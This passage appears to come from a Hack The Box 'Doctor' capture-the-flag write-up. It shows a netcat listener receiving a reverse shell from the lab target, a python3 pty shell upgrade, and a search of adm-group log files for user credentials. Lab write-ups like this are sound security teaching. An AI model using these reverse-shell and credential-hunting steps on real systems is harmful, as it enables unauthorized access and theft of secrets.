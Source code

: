 I got a connection back from the remote host which downloaded my shell script

## Initial Foothold

## Road to User

```text
┌──(zweilos㉿kali)-[~/htb/doctor]
└─$ nc -lvnp 8091                                                                                   1 ⨯
listening on [any] 8091 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.209] 51260
bash: cannot set terminal process group (867): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ which python
which python
web@doctor:~$ which python3
which python3
/usr/bin/python3
web@doctor:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
web@doctor:~$ export TERM=xterm-256color
export TERM=xterm-256color
web@doctor:~$
```

After the shell script ran I receieved a connection from the reverse shell to my waiting netcat listener. Python2 wasn't installed, but python3 was.+-

### Further enumeration

```text
web@doctor:~$ id && hostname
id && hostname
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
doctor
```

I was running as the user `web` which I immediately noticed was a member of the `adm` group.

### Finding user creds

```text
web@doctor:~$ find / -group adm 2>/dev/null
find / -group adm 2>/dev/null
/proc/1037

...snipped...

/proc/1041/arch_status
/var/log/kern.log.3.gz
/var/log/unattended-upgrades
/var/log/auth.log
/var/log/syslog
/var/log/ufw.log.2.gz
/var/log/dmesg.2.gz
/var/log/auth.log.1
/var/log/cups/error_log.1
/var/log/cups/access_log.1
/var/log/cups/access_log.7.gz
/var/log/cups/access_log.3.gz
/var/log/cups/error_log
/var/log/cups/access_log.2.gz
/var/log/cups/error_log.2.gz
/var/log/cups/error_log.3.gz
```